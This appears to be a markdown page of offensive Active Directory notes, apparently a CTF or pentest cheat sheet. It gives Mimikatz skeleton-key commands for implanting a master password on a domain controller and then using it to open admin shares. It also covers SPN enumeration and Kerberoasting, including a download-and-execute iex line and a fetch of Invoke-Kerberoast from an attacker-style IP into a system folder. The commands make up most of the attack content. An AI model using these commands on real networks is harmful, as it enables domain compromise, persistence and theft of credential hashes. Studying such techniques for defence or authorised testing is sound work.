 ### Skeleton Key Overview

* The timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash.
* Once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

```
mimikatz.exe
privilege::debug
misc::skeleton
```

* ![alt text](https://i.imgur.com/wI802gw.png)

### Accessing the forest

* The default credentials will be: `mimikatz`
* The share will now be accessible without the need for the Administrators password

```
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz 
```

* Access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

```
dir \\Desktop-1\c$ /user:Machine1 mimikatz 
```

* The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques

### Service Principle Name SPN

* Lets first enumerate Windows. If we run

```
setspn -T medin -Q */* 
```

* We can extract all accounts in the SPN. SPN is the Service Principal Name, and is the mapping between service and account.
* Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.
* Lets first get the Powershell Invoke-Kerberoast script.

```
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
powershell Invoke-WebRequest -Uri http://10.13.22.22:8000/Invoke-Kerberoast.ps1 -OutFile C:\Windows\System32\spool\drivers\color\Invoke-Kerberoast.ps1
```

* Now lets load this into memory:

```
. .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat hashcat |fl
```
